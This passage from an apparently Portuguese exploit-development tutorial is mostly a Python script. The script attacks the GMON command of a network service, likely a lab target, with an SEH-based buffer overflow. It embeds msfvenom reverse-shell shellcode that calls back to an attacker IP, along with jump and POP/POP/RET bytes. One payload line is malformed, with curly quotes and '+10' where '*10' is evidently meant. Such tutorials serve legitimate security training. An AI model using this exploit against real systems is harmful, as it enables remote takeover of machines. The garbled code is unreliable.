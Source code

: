 Caímos exatamente em cima do nosso buffer de “A”, agora temos 3549 bytes para explorarmos da forma que quisermos.

Antes de tudo, precisamos gerar nosso reverse shell com msfvenom e organizar nosso script.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# offset para buffer overflow
offset = 10007

# msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.17 lport=8443 -b '\x00' -v shellcode -f py
shellcode =  b""
shellcode += b"\xbd\x0a\xb3\xad\x9f\xd9\xcd\xd9\x74\x24\xf4"
shellcode += b"\x5f\x33\xc9\xb1\x52\x31\x6f\x12\x83\xef\xfc"
shellcode += b"\x03\x65\xbd\x4f\x6a\x85\x29\x0d\x95\x75\xaa"
shellcode += b"\x72\x1f\x90\x9b\xb2\x7b\xd1\x8c\x02\x0f\xb7"
shellcode += b"\x20\xe8\x5d\x23\xb2\x9c\x49\x44\x73\x2a\xac"
shellcode += b"\x6b\x84\x07\x8c\xea\x06\x5a\xc1\xcc\x37\x95"
shellcode += b"\x14\x0d\x7f\xc8\xd5\x5f\x28\x86\x48\x4f\x5d"
shellcode += b"\xd2\x50\xe4\x2d\xf2\xd0\x19\xe5\xf5\xf1\x8c"
shellcode += b"\x7d\xac\xd1\x2f\x51\xc4\x5b\x37\xb6\xe1\x12"
shellcode += b"\xcc\x0c\x9d\xa4\x04\x5d\x5e\x0a\x69\x51\xad"
shellcode += b"\x52\xae\x56\x4e\x21\xc6\xa4\xf3\x32\x1d\xd6"
shellcode += b"\x2f\xb6\x85\x70\xbb\x60\x61\x80\x68\xf6\xe2"
shellcode += b"\x8e\xc5\x7c\xac\x92\xd8\x51\xc7\xaf\x51\x54"
shellcode += b"\x07\x26\x21\x73\x83\x62\xf1\x1a\x92\xce\x54"
shellcode += b"\x22\xc4\xb0\x09\x86\x8f\x5d\x5d\xbb\xd2\x09"
shellcode += b"\x92\xf6\xec\xc9\xbc\x81\x9f\xfb\x63\x3a\x37"
shellcode += b"\xb0\xec\xe4\xc0\xb7\xc6\x51\x5e\x46\xe9\xa1"
shellcode += b"\x77\x8d\xbd\xf1\xef\x24\xbe\x99\xef\xc9\x6b"
shellcode += b"\x0d\xbf\x65\xc4\xee\x6f\xc6\xb4\x86\x65\xc9"
shellcode += b"\xeb\xb7\x86\x03\x84\x52\x7d\xc4\x6b\x0a\x7c"
shellcode += b"\x05\x04\x49\x7e\x05\x2f\xc4\x98\x2f\xdf\x81"
shellcode += b"\x33\xd8\x46\x88\xcf\x79\x86\x06\xaa\xba\x0c"
shellcode += b"\xa5\x4b\x74\xe5\xc0\x5f\xe1\x05\x9f\x3d\xa4"
shellcode += b"\x1a\x35\x29\x2a\x88\xd2\xa9\x25\xb1\x4c\xfe"
shellcode += b"\x62\x07\x85\x6a\x9f\x3e\x3f\x88\x62\xa6\x78"
shellcode += b"\x08\xb9\x1b\x86\x91\x4c\x27\xac\x81\x88\xa8"
shellcode += b"\xe8\xf5\x44\xff\xa6\xa3\x22\xa9\x08\x1d\xfd"
shellcode += b"\x06\xc3\xc9\x78\x65\xd4\x8f\x84\xa0\xa2\x6f"
shellcode += b"\x34\x1d\xf3\x90\xf9\xc9\xf3\xe9\xe7\x69\xfb"
shellcode += b"\x20\xac\x9a\xb6\x68\x85\x32\x1f\xf9\x97\x5e"
shellcode += b"\xa0\xd4\xd4\x66\x23\xdc\xa4\x9c\x3b\x95\xa1"
shellcode += b"\xd9\xfb\x46\xd8\x72\x6e\x68\x4f\x72\xbb"

# payload
payload = b"GMON ./" # comando inicial
payload += b”\x90” +10 # padding para o shellcode
payload += shellcode # enviando shellcode para o primeiro buffer
payload += b"A" * (3549 - len(shellcode) - 10) # complementando o buffer com "A"
payload += b"\xeb\x08" # salto curto
payload += b"\x90\x90" # padding para o salto curto
payload += b"\x0b\x12\x50\x62" # POP/POP/RET
payload += b"\x90\x90" # padding para o salto longo
payload += b"\xe9\x16\xf2\xff\xff" # salto longo
payload += b"D" * (offset - 3549 - 4 - 4 - 5) # complemento do buffer com "D"
```